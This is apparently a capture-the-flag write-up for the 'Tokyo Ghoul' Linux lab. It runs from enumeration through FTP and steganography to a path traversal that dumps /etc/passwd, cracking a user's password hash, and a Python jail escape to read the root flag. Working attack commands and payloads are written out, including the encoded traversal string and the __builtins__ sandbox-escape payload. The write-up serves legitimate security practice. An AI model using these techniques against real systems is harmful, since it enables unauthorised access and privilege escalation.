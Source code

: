 # Tokyo Ghoul - Linux - Medium

**IP may vary over document**

## Enumeration

### Nmap: `nmap -sV -oN nmap-initial $IP`

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### Gobuster: `gobuster dir -u http://$IP/ -w ../wordlist_common.txt| tee gobuster-scan`

```bash
/.htaccess            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://10.10.141.243/css/]
/index.html           (Status: 200) [Size: 1414]                               
/server-status        (Status: 403) [Size: 278]                                
```

### Manual enumeration

**Found in jasonroom.html source code:**

`<!-- look don't tell jason but we will help you escape , here is some clothes to look like us and a mask to look anonymous and go to the ftp room right there you will find a freind who will help you -->`

Ok let's try ftp with anonymous login. Getting all the files inside ftp we have: `Aogiri_tree.txt  need_to_talk  rize_and_kaneki.jpg`

Running strings on *need_to_talk* we get: `Take a look inside of me. rabin2 -z`

Using `rabin2 -z` we have:

```bash
nth paddr      vaddr      len size section type  string
-------------------------------------------------------
0   0x00002008 0x00002008 9   10   .rodata ascii kamishiro
1   0x00002018 0x00002018 37  38   .rodata ascii Hey Kaneki finnaly you want to talk \n
2   0x00002040 0x00002040 82  83   .rodata ascii Unfortunately before I can give you the kagune you need to give me the paraphrase\n
3   0x00002098 0x00002098 35  36   .rodata ascii Do you have what Im looking for?\n\n
4   0x000020c0 0x000020c0 47  48   .rodata ascii Good job. I believe this is what you came for:\n
5   0x000020f0 0x000020f0 51  52   .rodata ascii Hmm. I dont think this is what I was looking for.\n
6   0x00002128 0x00002128 36  37   .rodata ascii Take a look inside of me. rabin2 -z\n
```

Executing the binary we can't get past the password check.... Hmm let's try patching the binary

Using pwntools module in python

```python
#!/usr/bin/python3

from pwnlib.elf.elf import ELF

elf_object = ELF("need_to_talk")

''' 
# printing all known symbols in binary
for key in elf_object.symbols:
	print(key)
# If I avoid function "check_password" then I might be able to get the flag
print(f"check_password address: {hex(elf_object.symbols['check_password'])}")
'''
elf_object.asm(elf_object.symbols["check_password"], "mov eax, 1\nret")
elf_object.save("new_binary")

print("successfull")
```

Now executing the binary we got: `You_found_1t`

*After I was done with the machine and was filling up those answers I came across a question where it asks for the binary passphrase... as I had patched the binary I did not have the passphrase.. Though it was always in sight when it asked to use rabin2 -z*

Binary Passphrase: `kamishiro`

Checking the *rize_and_kaneki.jpg* file with `exiftool` and `stegsolve.jar` revealed nothing. Trying steghide needed password. Giving it the password obtained from the binary. 

```bash
$steghide --info rize_and_kaneki.jpg
"rize_and_kaneki.jpg":
  format: jpeg
  capacity: 2.7 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "yougotme.txt":
    size: 377.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
```

Extracting the embedded file: 

```bash
steghide --extract -sf rize_and_kaneki.jpg -xf yougotme.txt
```

We got something like a blip/blop - its morse code. Use [online decoder](https://morsecode.world/international/translator.html) to solve it or do it manually. 

After solving we got something that is hex represented data... lets converting it to ascii using python

```python
str = "5A4446794D324D334D484A3558324E6C626E526C63673D3D"
print(bytes.fromhex(str).decode())
```

We have a string that looks like base64 encoded. Time to decode

```bash
echo <string_here> | base64 -d
```

Now it seems like this is a dir. Let's visit this on the website. It asks to scan the dir itself. Using `gobuster` for scan

```bash
gobuster dir -u http://IP/dir_here/ -w ../wordlist_common.txt| tee rize_scan

/.htaccess            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/claim                (Status: 301) [Size: 331] [--> http://10.10.114.149/d1r3c70ry_center/claim/
/index.html           (Status: 200) [Size: 312]                                                   
```

Let's check inside */claim* dir... And YES or NO which leads to: `index.php?view=flower.gif` ...Hmm can I view */etc/passwd*? Maybe? Nope just giving */etc/passwd* did not work... but giving */index.html* works.... Hmmm let's check this with burp.

After some fiddling around 

* it seems it is ignoring */* and displaying the rest meaning */index.html* works same as *index.html*

* on giving *../../../../../../../etc/passwd* we get the message: `no no no silly don't do that`

* *.* and */* needs to be encoded

After a lot of fuzzing for path of /etc/passwd it seems the correct one was: `.../../../../../../../../../../../../etc/passwd`. URL-encoding this and sending it back gave the passwd file as intended

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
statd:x:110:65534::/var/lib/nfs:/bin/false
sshd:x:111:65534::/var/run/sshd:/usr/sbin/nologin
vagrant:x:1000:1000:vagrant,,,:/home/vagrant:/bin/bash
vboxadd:x:999:1::/var/run/vboxadd:/bin/false
ftp:x:112:118:ftp daemon,,,:/srv/ftp:/bin/false
kamishiro:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:1001:1001:,,,:/home/kamishiro:/bin/bash
```

Hmm ... lets try `john` on user *kamishiro*

```bash
$ john --wordlist=../rockyou.txt passwd_file
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
No password hashes left to crack (see FAQ)
```

```bash
$ john --show passwd_file
kamishiro:password123:1001:1001:,,,:/home/kamishiro:/bin/bash
```

Now let's ssh into the box.

---
## User.txt

Just cat the *user.txt* file out once ssh is done on the machine.

---
## Root.txt

Using `sudo -l` reveals

```bash
User kamishiro may run the following commands on vagrant.vm:
    (ALL) /usr/bin/python3 /home/kamishiro/jail.py
```

Checking the *jail.py* file it seems there are some bad strings like *import, read, write* etc. that cannot be used as it is. After doing some google search on escaping sandbox/jailbreaking python scripts I finally figured out the payload.

```python
__builtins__.__dict__['__IMPORT__'.lower()]("OS".lower()).__dict__["System".lower()]("cat /root/root.txt")
```

Just execute `sudo /usr/bin/python3 /home/kamishiro/jail.py` and supply the above payload to get the root flag

